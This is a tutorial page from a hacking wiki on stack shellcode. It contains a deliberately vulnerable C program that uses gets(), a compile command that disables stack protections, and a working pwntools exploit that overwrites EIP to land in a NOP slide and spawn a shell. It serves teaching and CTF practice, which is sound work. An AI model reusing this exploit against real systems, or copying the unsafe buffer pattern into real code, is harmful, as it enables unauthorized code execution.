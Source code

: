 # Stack Shellcode

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Basic Information

**Stack shellcode** is a technique used in binary exploitation where an attacker writes shellcode to a vulnerable program's stack and then modifies the **Instruction Pointer (IP)** or **Extended Instruction Pointer (EIP)** to point to the location of this shellcode, causing it to execute. This is a classic method used to gain unauthorized access or execute arbitrary commands on a target system. Here's a breakdown of the process, including a simple C example and how you might write a corresponding exploit using Python with **pwntools**.

### C Example: A Vulnerable Program

Let's start with a simple example of a vulnerable C program:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
    char buffer[64];
    gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
    vulnerable_function();
    printf("Returned safely\n");
    return 0;
}
```

This program is vulnerable to a buffer overflow due to the use of the `gets()` function.

### Compilation

To compile this program while disabling various protections (to simulate a vulnerable environment), you can use the following command:

```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```

* `-fno-stack-protector`: Disables stack protection.
* `-z execstack`: Makes the stack executable, which is necessary for executing shellcode stored on the stack.
* `-no-pie`: Disables Position Independent Executable, making it easier to predict the memory address where our shellcode will be located.
* `-m32`: Compiles the program as a 32-bit executable, often used for simplicity in exploit development.

### Python Exploit using Pwntools

Here's how you could write an exploit in Python using **pwntools** to perform a **ret2shellcode** attack:

```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```

This script constructs a payload consisting of a **NOP slide**, the **shellcode**, and then overwrites the **EIP** with the address pointing to the NOP slide, ensuring the shellcode gets executed.

The **NOP slide** (`asm('nop')`) is used to increase the chance that execution will "slide" into our shellcode regardless of the exact address. Adjust the `p32()` argument to the starting address of your buffer plus an offset to land in the NOP slide.

## Protections

* [**ASLR**](../common-binary-protections-and-bypasses/aslr/) **should be disabled** for the address to be reliable across executions or the address where the function will be stored won't be always the same and you would need some leak in order to figure out where is the win function loaded.
* [**Stack Canaries**](../common-binary-protections-and-bypasses/stack-canaries/) should be also disabled or the compromised EIP return address won't never be followed.
* [**NX**](../common-binary-protections-and-bypasses/no-exec-nx.md) **stack** protection would prevent the execution of the shellcode inside the stack because that region won't be executable.

## Other Examples & References

* [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
* [https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/csaw17\_pilot/index.html)
  * 64bit, ASLR with stack address leak, write shellcode and jump to it
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tamu19\_pwn3/index.html)
  * 32 bit, ASLR with stack leak, write shellcode and jump to it
* [https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof\_shellcode/tu18\_shellaeasy/index.html)
  * 32 bit, ASLR with stack leak, comparison to prevent call to exit(), overwrite variable with a value and write shellcode and jump to it

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.bytebreach.xyz/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach\_live**](https://twitter.com/bytebreach\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>
